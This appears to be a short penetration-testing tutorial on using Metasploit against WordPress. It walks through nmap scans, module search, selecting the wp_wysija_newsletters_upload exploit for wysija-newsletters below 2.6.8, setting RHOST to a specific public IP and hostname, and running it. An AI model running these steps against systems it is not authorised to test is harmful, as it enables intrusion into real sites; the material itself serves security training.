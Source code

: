 # WordPress

### Identify a Remote Host

```sh
msf > db_nmap -v -sV 192.168.111.xxx
```

![pentest-env-kali-rolling\_\_Running\_.png](resources/575CF62D4C7E18CFD40566EA08E7D588.png)

#### Scan an Entire Network

* This will save the results to the metasploit database

```sh
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

* `hosts` will list all the hosts found by `nmap`.
* `hosts -R` will add them to the list of hosts to exploit.

### Searching for a WordPress Vulnerability

```sh
msf > search name:wordpress
```

![pentest-env-kali-rolling\_\_Running\_.png](resources/A9D412A6F8C5F3485B429E2EA41D4CB9.png)

### Use an Exploit

* This will select an exploit to use:

```sh
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

* This will show you the attacks that the exploit will take advantage of:

```sh
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![pentest-env-kali-rolling\_\_Running\_.png](resources/67A7D5964C96C63BA11EEA707CB4A604.png)

* This will show what software and version will be targeted:

```sh
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

### Next configure the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

* Here is where we set all the options:

```sh
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

### Run the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > exploit
```



